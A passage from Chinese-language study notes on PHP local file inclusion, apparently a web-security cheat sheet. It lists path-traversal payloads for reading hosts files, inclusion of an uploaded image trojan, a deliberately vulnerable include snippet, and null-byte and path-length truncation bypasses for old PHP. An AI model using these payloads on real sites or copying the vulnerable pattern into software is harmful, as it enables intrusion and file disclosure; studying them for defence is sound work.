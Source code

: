    2. Linux

      ```
      /etc/hosts
      ```

2. 相对路径读取本地host文件

   1. Windows

      ```
      ..\..\..\..\Windows\System32\drivers\etc\hosts
      ```

   2. Linux

      ```
      ..\..\..\etc\hosts
      ```

3. 包含图片木马

   * 利用文件包含漏洞直接包含木马图片

     ```php
     /action.php?action=./muma.jpg
     ```

###### ④绕过

* 代码形式(自带拼接后缀)

```php
<?php
	$filename=$_GET['filename'];
	include $filename.'.php';
?>
```

1. %00截断

   1. 满足条件

      * magic_quotes_gpc = Off
      * php版本 < 5.3.4

   2. 形式

      ```php
      /action.php?action=phpinfo.php%00
      ```

2. 路径长度截断

   1. 满足条件

      * Windows下要长于**198字符**，超出部分会被丢弃
      * **php < 5.3.4**
      * 操作系统版本要是**低版本(例如Win7)**

   2. 形式
